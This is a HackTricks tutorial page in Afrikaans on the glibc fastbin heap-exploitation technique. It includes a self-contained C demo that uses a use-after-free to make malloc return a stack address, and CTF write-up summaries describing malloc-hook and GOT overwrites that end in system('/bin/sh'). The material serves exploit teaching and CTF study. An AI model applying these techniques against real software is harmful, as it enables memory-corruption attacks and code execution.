 # Vinnige Binne-Aanval

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy jou **maatskappy geadverteer wil sien in HackTricks** of **HackTricks in PDF wil aflaai** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

## Basiese Inligting

Vir meer inligting oor wat 'n vinnige bin is, kyk na hierdie bladsy:

{% content-ref url="bins-and-memory-allocations.md" %}
[bins-and-memory-allocations.md](bins-and-memory-allocations.md)
{% endcontent-ref %}

Omdat die vinnige bin 'n enkelgelinkte lys is, is daar baie minder beskerming as in ander binne en net **die wysiging van 'n adres in 'n vrygemaakte vinnige bin-stuk** is genoeg om later 'n stuk in enige geheue-adres te **allokeer**.

Opsomming:

{% code overflow="wrap" %}
```c
ptr0 = malloc(0x20);
ptr1 = malloc(0x20);

// Put them in fast bin (suppose tcache is full)
free(ptr0)
free(ptr1)

// Use-after-free
// Modify the address where the free chunk of ptr1 is pointing
*ptr1 = (unsigned long)((char *)&<address>);

ptr2 = malloc(0x20); // This will get ptr1
ptr3 = malloc(0x20); // This will get a chunk in the <address> which could be abuse to overwrite arbitrary content inside of it
```
{% endcode %}

Jy kan 'n volledige voorbeeld vind in 'n baie goed verduidelikte kode van [https://guyinatuxedo.github.io/28-fastbin\_attack/explanation\_fastbinAttack/index.html](https://guyinatuxedo.github.io/28-fastbin\_attack/explanation\_fastbinAttack/index.html):
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(void)
{
puts("Today we will be discussing a fastbin attack.");
puts("There are 10 fastbins, which act as linked lists (they're separated by size).");
puts("When a chunk is freed within a certain size range, it is added to one of the fastbin linked lists.");
puts("Then when a chunk is allocated of a similar size, it grabs chunks from the corresponding fastbin (if there are chunks in it).");
puts("(think sizes 0x10-0x60 for fastbins, but that can change depending on some settings)");
puts("\nThis attack will essentially attack the fastbin by using a bug to edit the linked list to point to a fake chunk we want to allocate.");
puts("Pointers in this linked list are allocated when we allocate a chunk of the size that corresponds to the fastbin.");
puts("So we will just allocate chunks from the fastbin after we edit a pointer to point to our fake chunk, to get malloc to return a pointer to our fake chunk.\n");
puts("So the tl;dr objective of a fastbin attack is to allocate a chunk to a memory region of our choosing.\n");

puts("Let's start, we will allocate three chunks of size 0x30\n");
unsigned long *ptr0, *ptr1, *ptr2;

ptr0 = malloc(0x30);
ptr1 = malloc(0x30);
ptr2 = malloc(0x30);

printf("Chunk 0: %p\n", ptr0);
printf("Chunk 1: %p\n", ptr1);
printf("Chunk 2: %p\n\n", ptr2);


printf("Next we will make an integer variable on the stack. Our goal will be to allocate a chunk to this variable (because why not).\n");

int stackVar = 0x55;

printf("Integer: %x\t @: %p\n\n", stackVar, &stackVar);

printf("Proceeding that I'm going to write just some data to the three heap chunks\n");

char *data0 = "00000000";
char *data1 = "11111111";
char *data2 = "22222222";

memcpy(ptr0, data0, 0x8);
memcpy(ptr1, data1, 0x8);
memcpy(ptr2, data2, 0x8);

printf("We can see the data that is held in these chunks. This data will get overwritten when they get added to the fastbin.\n");

printf("Chunk 0: %s\n", (char *)ptr0);
printf("Chunk 1: %s\n", (char *)ptr1);
printf("Chunk 2: %s\n\n", (char *)ptr2);

printf("Next we are going to free all three pointers. This will add all of them to the fastbin linked list. We can see that they hold pointers to chunks that will be allocated.\n");

free(ptr0);
free(ptr1);
free(ptr2);

printf("Chunk0 @ 0x%p\t contains: %lx\n", ptr0, *ptr0);
printf("Chunk1 @ 0x%p\t contains: %lx\n", ptr1, *ptr1);
printf("Chunk2 @ 0x%p\t contains: %lx\n\n", ptr2, *ptr2);

printf("So we can see that the top two entries in the fastbin (the last two chunks we freed) contains pointers to the next chunk in the fastbin. The last chunk in there contains `0x0` as the next pointer to indicate the end of the linked list.\n\n");


printf("Now we will edit a freed chunk (specifically the second chunk \"Chunk 1\"). We will be doing it with a use after free, since after we freed it we didn't get rid of the pointer.\n");
printf("We will edit it so the next pointer points to the address of the stack integer variable we talked about earlier. This way when we allocate this chunk, it will put our fake chunk (which points to the stack integer) on top of the free list.\n\n");

*ptr1 = (unsigned long)((char *)&stackVar);

printf("We can see it's new value of Chunk1 @ %p\t hold: 0x%lx\n\n", ptr1, *ptr1);


printf("Now we will allocate three new chunks. The first one will pretty much be a normal chunk. The second one is the chunk which the next pointer we overwrote with the pointer to the stack variable.\n");
printf("When we allocate that chunk, our fake chunk will be at the top of the fastbin. Then we can just allocate one more chunk from that fastbin to get malloc to return a pointer to the stack variable.\n\n");

unsigned long *ptr3, *ptr4, *ptr5;

ptr3 = malloc(0x30);
ptr4 = malloc(0x30);
ptr5 = malloc(0x30);

printf("Chunk 3: %p\n", ptr3);
printf("Chunk 4: %p\n", ptr4);
printf("Chunk 5: %p\t Contains: 0x%x\n", ptr5, (int)*ptr5);

printf("\n\nJust like that, we executed a fastbin attack to allocate an address to a stack variable using malloc!\n");
}
```
{% hint style="danger" %}
As dit moontlik is om die waarde van die globale veranderlike **`global_max_fast`** te oorskryf met 'n groot getal, maak dit dit moontlik om vinnige bin stukke van groter groottes te genereer, wat moontlik kan lei tot die uitvoer van vinnige bin aanvalle in scenario's waar dit voorheen nie moontlik was nie. Hierdie situasie is nuttig in die konteks van [groot bin aanval](large-bin-attack.md) en [ongesorteerde bin aanval](unsorted-bin-attack.md).
{% endhint %}

## Voorbeelde

* **CTF** [**https://guyinatuxedo.github.io/28-fastbin\_attack/0ctf\_babyheap/index.html**](https://guyinatuxedo.github.io/28-fastbin\_attack/0ctf\_babyheap/index.html)**:**
* Dit is moontlik om stukke toe te ken, hulle vry te stel, hul inhoud te lees en hulle te vul (met 'n oorvloei kwesbaarheid).
* **Konsolideer stuk vir inligtingslek**: Die tegniek is basies om die oorvloei te misbruik om 'n vals `prev_size` te skep sodat een vorige stuk binne 'n groter een geplaas word, sodat wanneer die groter een wat 'n ander stuk bevat, toegeken word, dit moontlik is om sy data af te druk en 'n adres na libc te lek (`main_arena+88`).
* **Oorskryf malloc haak**: Hiervoor, en deur die vorige oorvleuelende situasie te misbruik, was dit moontlik om 2 stukke te hê wat na dieselfde geheue verwys het. Daarom, deur hulle albei vry te stel (deur nog 'n stuk tussenin vry te stel om beskerming te vermy), was dit moontlik om dieselfde stuk in die vinnige bin 2 keer te hê. Daarna was dit moontlik om dit weer toe te ken, die adres na die volgende stuk oor te skryf om 'n bietjie voor `__malloc_hook` te wys (sodat dit na 'n heelgetal wys wat malloc dink is 'n vry grootte - nog 'n omweg), dit weer toe te ken en dan 'n ander stuk toe te ken wat 'n adres na malloc haakse sal ontvang.\
Uiteindelik is 'n **eenhulpmiddel** daar geskryf.
* **CTF** [**https://guyinatuxedo.github.io/28-fastbin\_attack/csaw17\_auir/index.html**](https://guyinatuxedo.github.io/28-fastbin\_attack/csaw17\_auir/index.html)**:**
* Daar is 'n geheue oorvloei en gebruik na vry en dubbel vry omdat wanneer 'n stuk vrygestel word, dit moontlik is om die aanwysers her te gebruik en weer vry te stel
* **Libc inligtingslek**: Vry net 'n paar stukke en hulle sal 'n aanwyser na 'n deel van die hoofarena-plek kry. Aangesien jy vrygestelde aanwysers kan hergebruik, lees net hierdie adres.
* **Vinnige bin aanval**: Al die aanwysers na die toekennings word binne 'n reeks gestoor, sodat ons 'n paar vinnige bin stukke kan vry en in die laaste een die adres kan oorskryf om 'n bietjie voor hierdie reeks van aanwysers te wys. Toe, ken 'n paar stukke toe met dieselfde grootte en ons sal eers die regte een kry en dan die vals een wat die reeks van aanwysers bevat. Ons kan nou hierdie toekenningsaanwysers oorskryf om die GOT-adres van `free` te maak om na `system` te wys en dan `"/bin/sh"` in stuk 1 te skryf om dan `free(chunk1)` te roep wat in plaas daarvan `system("/bin/sh")` sal uitvoer.
* **CTF** [**https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw19\_traveller/index.html**](https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw19\_traveller/index.html)
* 'n Ander voorbeeld van die misbruik van 'n een byte oorvloei om stukke in die ongesorteerde bin te konsolideer en 'n libc inligtingslek te kry en dan 'n vinnige bin aanval uit te voer om malloc haak met 'n eenhulpmiddeladres te oorskryf
* **CTF** [**https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw18\_alienVSsamurai/index.html**](https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw18\_alienVSsamurai/index.html)
* Na 'n inligtingslek wat die ongesorteerde bin met 'n UAF misbruik om 'n libc-adres en 'n PIE-adres te lek, het die uitbuiting van hierdie CTF 'n vinnige bin aanval gebruik om 'n stuk toe te ken op 'n plek waar die aanwysers na beheerde stukke geleë was sodat dit moontlik was om sekere aanwysers te oorskryf om 'n eenhulpmiddel in die GOT te skryf
* Jy kan 'n Vinnige Bin-aanval vind wat misbruik word deur 'n ongesorteerde bin-aanval:
* Let daarop dat dit algemeen is voordat vinnige bin aanvalle uitgevoer word om die vrylys te misbruik om libc/geheue-adresse te lek (indien nodig).
* [**Robotfabriek. BlackHat MEA CTF 2022**](https://7rocky.github.io/en/ctf/other/blackhat-ctf/robot-factory/)
* Ons kan slegs stukke van groottes groter as `0x100` toeken.
* Oorskryf `global_max_fast` deur 'n Ongesorteerde Bin-aanval te gebruik (werk 1/16 keer as gevolg van ASLR, omdat ons 12 bietjies moet wysig, maar ons moet 16 bietjies wysig).
* Vinnige Bin-aanval om die globale reeks van stukke te wysig. Dit gee 'n arbitrêre lees-/skryfprimitief, wat dit moontlik maak om die GOT te wysig en sommige funksies te laat wys na `system`.

{% content-ref url="unsorted-bin-attack.md" %}
[unsorted-bin-attack.md](unsorted-bin-attack.md)
{% endcontent-ref %}

<details>

<summary><strong>Leer AWS hak vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien jou **maatskappy geadverteer in HackTricks** of **HackTricks aflaai in PDF-formaat** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS-familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
